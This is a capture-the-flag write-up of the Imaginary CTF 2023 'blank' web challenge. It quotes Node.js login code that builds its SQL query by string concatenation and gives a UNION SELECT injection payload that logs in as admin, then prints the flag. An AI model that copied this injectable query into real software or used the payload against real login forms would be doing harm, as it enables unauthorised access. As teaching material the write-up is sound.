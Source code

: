 ```yaml
---
CTF: Imaginary CTF 2023
Challenge Name: blank
Category: Web
Date: 22/07/23
Author: Eth007
Points: 100
Solves: 210
---
```


### Description
>I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

Source code is provided, so let's review it before we check [the site](http://blank.chal.imaginaryctf.org).

## Recon
We need to login as admin to access the `/flag` endpoint.
```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

The `/login` endpoint appears to be vulnerable to [SQL injection](https://portswigger.net/web-security/sql-injection)
```js
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

A `users` table is inserted into the database, but no users are added! We'll need to specify the username as `admin` and use SQLi to bypass the password check.

Additionally, the database type is `sqlite3`, so we'll need to [craft payloads accordingly](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration)

Sending a double quote will create an error in the SQL statement, returning 500.
```sql
"
```

We can use a UNION query, ensuring that the number of columns matches the expected.
```sql
" UNION SELECT 420, "admin", "cat" --
```

Now, we just need to visit http://blank.chal.imaginaryctf.org/flag and receive our flag.
```txt
ictf{sqli_too_powerful_9b36140a}
```